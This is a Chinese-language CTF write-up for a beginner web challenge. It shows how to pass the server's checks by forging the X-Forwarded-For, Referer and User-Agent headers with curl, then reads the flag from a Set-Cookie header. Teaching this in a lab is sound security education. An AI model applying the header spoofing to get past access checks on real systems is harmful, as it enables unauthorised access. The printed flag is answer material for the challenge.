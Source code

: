 ```yaml
---
title: ezHTTP
author: SMJB
difficulty: Baby
category: Web
image: ghcr.io/svuctf/svuctf-helloworld-2024/ez_http:latest
port: 80
writeup_author: 13m0n4de
tags:
  - http
  - headers
reference:
---
```


# ezHTTP

## 题目描述

## 题目解析

本题考察 HTTP 请求头的基础知识。

使用浏览器访问靶机地址，页面返回：

> 必须从本地访问!

这提示我们需要伪造本地访问。

在 Web 应用中，通常使用 `X-Forwarded-For` 请求头来标识请求的真实来源 IP。我们可以尝试这个头为 `127.0.0.1`：

（如果你还不清楚如何发送 HTTP 请求，可以查看 [Param 题解 ](../param/README.md)中对于 HTTP 请求和相关工具的介绍）

```
$ curl -H "X-Forwarded-For: 127.0.0.1" http://<IP>:<PORT>
```

成功绕过第一道检查后，页面显示：

> 不是 genshin.edu.cn 来的我不要

这说明网站在检查请求的来源。

在 HTTP 协议中，`Referer` 头用于指示请求是从哪个页面跳转过来的。让我们加上这个头：

```
$ curl \
    -H "X-Forwarded-For: 127.0.0.1" \
    -H "Referer: genshin.edu.cn" \
    http://<IP>:<PORT>
```

通过第二个检查后，得到新的提示：

> 请使用 svuctf 浏览器!

这是在检查 `User-Agent` 头，它用于标识发起请求的客户端类型。我们需要将其设置为 `svuctf`：

```
$ curl \
    -H "X-Forwarded-For: 127.0.0.1" \
    -H "Referer: genshin.edu.cn" \
    -H "User-Agent: svuctf" \
    http://<IP>:<PORT>
```

满足所有条件后，页面显示：

> flag在小饼干里!

这提示我们 flag 被放在了 Cookie 中。使用 curl 的 -v 参数可以查看完整的响应头：

```
$ curl -v \
    -H "X-Forwarded-For: 127.0.0.1" \
    -H "Referer: genshin.edu.cn" \
    -H "User-Agent: svuctf" \
    http://<IP>:<PORT>
```

可以在响应头中找到 `Set-Cookie` 字段，其中含有被 URL 编码过的 Flag 字符串。

```
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Thu, 31 Oct 2024 23:25:58 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/8.3.2
< Set-Cookie: flag=flag%7Bhttp_1s_s0_e%40sy%21_83bb6163346d%7D%0A
```
